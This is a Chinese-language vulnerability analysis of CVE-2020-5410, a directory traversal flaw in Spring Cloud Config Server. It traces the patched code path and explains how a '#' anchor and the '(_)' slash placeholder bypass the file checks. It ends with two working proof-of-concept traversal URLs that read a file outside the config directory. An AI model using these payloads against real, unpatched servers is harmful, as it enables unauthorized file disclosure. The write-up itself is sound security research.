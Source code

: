 （CVE-2020-5410）Spring Cloud Config 目录穿越漏洞
=================================================

一、漏洞简介
------------

Spring Cloud
Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。

二、漏洞影响
------------

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本

三、复现过程
------------

### 漏洞分析

这次补丁主要是两个部分,第一个部分是将对路径的检测方法单独的封装了出来,封装到了PathUtils类中,并且做了部分的修改,其中最主要的是检测了`#`,至于是为什么,后面来说。![1.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId25.png)

第二部分,也就是漏洞的触发入口，在environment/EnvironmentController.java中,增加了对name、label字段的检测![2.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId26.png)通过补丁我们可以大概知道漏洞应该是出在EnvironmentController,但是具体怎么触发并不知道,所以我们需要跟一遍正常逻辑看一下处理流程。既然是目录穿越漏洞,我们先通过环境变量设置本地读取

    profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:/test/config-repo-master

然后使用正确的请求来动态跟踪调用堆栈`http://www.0-sec.org:8889/111/222/333`,将断点打在入口处,然后往下跟![3.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId27.png)

在跟到`environment/NativeEnvironmentRepository.java`的时候发现参数进行了拼接,![4.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId28.png)重新跟进getArgs看一下

    private String[] getArgs(String application, String profile, String label) {
            List<String> list = new ArrayList<String>();
            String config = application;
            if (!config.startsWith("application")) {
                config = "application," + config;
            }
            list.add("--spring.config.name=" + config);
            list.add("--spring.cloud.bootstrap.enabled=false");
            list.add("--encrypt.failOnError=" + this.failOnError);
            list.add("--spring.config.location=" + StringUtils.arrayToCommaDelimitedString(
                    getLocations(application, profile, label).getLocations()));
            return list.toArray(new String[0]);
        }

主要在getLocations中对路径进行了下拼接,声称了一个将env中的uri拼接了label,生成新的location,那么这个点就是我们目录穿越的关键,继续往下跟,在`environment/NativeEnvironmentRepository.java`中会将args传入spring
boot的`ConfigurableApplicationContext context = builder.run(args)`,后面会使用loader.load函数加载资源,在加载资源的时候会遍历locations拼接name来获取资源,首先来判断是否存在文件,如果文件存在,则去使用url.openConnection来获取资源,通过分析我们知道label和name是我们可控的传入,

    url = env-uri+label+name+extension

因为是借助的url.openConnection,结合补丁增加了`#`限制,我们可以清楚的知道通过在name中以`#`结尾,使extension成为锚点,也就绕过了后缀的限制。在构造poc之前其实还有一个问题，就是这里我们知道一开始是没有对路径进行检测的,那么我们是否可以直接使用`../../`来穿越呢?答案是否,因为如果我们想要传入后端处理,必须二次url编码,但是二次编码后,首先经过的是判断文件是否存在,如果存在才调用url.openConnection来处理,经过一次解码后,显然该路径文件是不存在的。

![5.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId29.png)

这里就有了跟CVE-2020-5405一样的操作,将`(_)`替换成了`/`,处理方法在

    public static String normalize(String s) {
            if (s != null && s.contains(SLASH_PLACEHOLDER)) {
                // "(_)" is uncommon in a git repo name, but "/" cannot be matched
                // by Spring MVC
                return s.replace(SLASH_PLACEHOLDER, "/");
            }
            return s;
        }

### poc

    http://www.0-sec.org:8889/flag.txt%23/222/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29tmp%28_%29

![6.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId31.png)

构造完这个poc会想到,既然是label+name来拼接的,我们是否可以不用管label,目录穿越的方法在name处构造呢?答案是可以的,poc如下

    http://www.0-sec.org:8889/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%252Fflag.txt%23/222/11

![7.png](resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId32.png)
